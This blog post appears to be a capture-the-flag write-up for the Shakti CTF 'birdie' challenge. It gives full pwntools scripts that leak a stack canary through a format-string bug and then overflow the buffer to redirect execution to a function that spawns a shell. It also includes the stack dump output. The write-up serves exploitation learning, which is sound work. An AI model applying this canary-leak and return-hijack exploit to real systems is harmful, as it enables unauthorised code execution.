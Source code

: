 _
--- 
layout: post 
title: "[Shakti CTF] birdie" 
date: "2021-04-04" 
categories: PWN 
author: eurus 
---

For this challenge we have an elf file that has no PIE but has a stack canary.

```
┌──(pwn)(eurus㉿warfare)-[~/…/ShaktiCTF_TODO/my_writeup/shakti_ctf/Birdie]
└─$ python3 solver.py
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Birdie/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

disassembling this elf we can see that we have a string format vulnerability and the possibility to make buffer overflow. And we can also see that we have a function that call ```system('/bin/sh')```. In order to win this challenge we need to redirect the flow of this binary to this function.

We can make a buffer overflow if we leak the canary on the stack. Fortunately with the format string vulnerability we can leak information from the binary during its execution.

```python
from pwn import *

elf = ELF('./birdie')
context.binary = elf

for i in range(1, 100):
    p = elf.process()
    p.recvuntil('Enter your name\n')
    p.sendline(f"%{i}$p")
    log.info(f"{i}:")
    leak = p.recvuntil('\n')
    log.info(leak)
    p.close()
```

I have write this little script in order to explore the stack and trying to find the exact position where the canary is.

```text
[*] 1:
[*] 0x7ffe1c4a8b70
[*] 2:
[*] 0x20
[*] 3:
[*] 0x7f69ca347e8e
[*] 4:
[*] 0x10
[*] 5:
[*] 0x7f488078e180
[*] 6:
[*] 0xf0b2ff
[*] 7:
[*] 0xc2
[*] 8:
[*] 0x1
[*] 9:
[*] 0x4008dd
[*] 10:
[*] 0xa7024303125
[*] 11:
[*] (nil)
[*] 12:
[*] 0x400890
[*] 13:
[*] 0x400690
[*] 14:
[*] 0x7ffe929cda80
[*] 15:
[*] 0xd6194b70fcac3700
[*] 16:
[*] 0x400890
[*] 17:
[*] 0x7fccfae1ed0a
[*] 18:
[*] 0x7ffc3a997f28
[*] 19:
[*] 0x100000000
[*] 20:
[*] 0x4007e2
```

with this dump of the stack (attenction, this is not the stack of one single execution, but every leak in an offset is an execution) we can see that the canary is at the offset 15.  So we can dump the stack value sending to the server the string: ```%15$p```.

Now that we have the canary value we theoretically can perform a buffer overflow. Using cyclic and gdb we can find that the offset to the canary in the execution is 72 bytes. So with this information I have wrote a script that redirect the execution of the program.

```python
elf = ELF('./birdie')
context.binary = elf


p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x00000000004007E2')
#p = remote("34.121.211.139", 1111)

p.recvuntil('Enter your name\n')
p.sendline(f"%15$p")
leak = str(p.recvuntil('\n'))
c = leak.replace('b\'','').replace('\\n\'','')

log.info(c)

win = 0x0000000000400873
ret_gd = 0x000000000040060e
canary = int(c, 16)
log.info(str(hex(canary)))
payload = b'A'*72+p64(canary)+p64(0)+p64(ret_gd)+p64(win)

p.recvuntil('Enter the payload\n')
p.sendline(payload)
p.interactive()
```

Doing that we have a shell that permit us to get the flag!
